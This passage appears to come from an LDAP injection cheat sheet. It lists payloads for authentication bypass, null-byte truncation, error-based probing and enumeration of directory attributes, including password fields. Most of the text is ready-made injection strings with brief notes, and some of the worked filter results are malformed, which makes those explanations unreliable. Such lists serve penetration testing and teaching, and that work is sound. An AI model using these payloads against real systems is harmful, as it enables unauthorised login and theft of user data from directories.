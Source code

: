 Detection involves injecting special LDAP metacharacters and observing changes in the application's response or authentication behavior. Exploitation aims to extract data or bypass authentication.

### Authentication Bypass

This is often the first goal. The idea is to create a filter that always evaluates to true for a given username, effectively ignoring the password.

*   **Common Payloads for Username field**:
    *   `*)(uid=*))` (If the filter is like `(&(uid=INPUT)(password=PASS))`)
        *   Results in: `(&(uid=*)(uid=*))(password=PASS))` -> `*` matches anything, effectively authenticating as the first user found or any user.
    *   `*)(cn=*))`
    *   `*)(objectClass=*))`
    *   `*` (Simplest, sometimes works)
    *   `admin)(|(userpassword=*` (If the filter is `(uid=INPUT)`)
        *   Results in: `(uid=admin)(|(userpassword=*))` -> Tries to match `admin` AND any password.
    *   `user)((cn=*` (Matches any user, useful for identifying the first user in the directory)
    *   `%2a` (URL-encoded `*`)
    *   `%26` (URL-encoded `&`)
    *   `%7c` (URL-encoded `|`)

*   **Null Byte Termination (`%00`)**: Some applications or parsers might truncate the string after a null byte, effectively eliminating the rest of the original query.
    *   **Payload**: `admin)(|(objectClass=*))%00`
        *   If the original filter was `(&(uid=INPUT)(password=PASS))`, it might become `(&(uid=admin)(|(objectClass=*)))` after truncation.

### Error-Based LDAP Injection

Sometimes, misconfigured LDAP parsers will reveal information through error messages. Inject special characters and observe the response.

#### Payloads
*   `((` (Attempts to break the LDAP query syntax)
*   `%` (Or other non-LDAP characters)
*   Look for LDAP-specific error messages, schema details, or unexpected responses.

### Data Extraction (Enumeration)

Once authentication is bypassed, or if a search function is vulnerable, you can enumerate directory content. This often involves trial and error to determine the correct LDAP attributes and structure.

*   **Finding all users (if search filter is extensible)**:
    *   `*)(objectClass=person))` (Look for objects with `objectClass` "person" or "user")
    *   `*)(uid=*))` (Look for all entries with a `uid`)
    *   `*)(cn=*))` (Look for all entries with a `cn` (common name))

*   **Extracting specific attribute values (e.g., email addresses)**:
    *   If a search parameter is `search_query` and the filter is `(cn=*search_query*)`, inject:
        *   `*))(&(mail=*)` (This tries to search for anything, then specifically for entries that have a `mail` attribute).
    *   **Payloads for specific attribute names (requires knowing the attribute):**
        *   `*)(mail=*))(&(uid=*)` (Search for any entry with an email, then for any user ID)
        *   `*)(telephoneNumber=*))(&(uid=*)`
        *   `*)(userpassword=*))(&(uid=*)` (Dangerous if successful!)
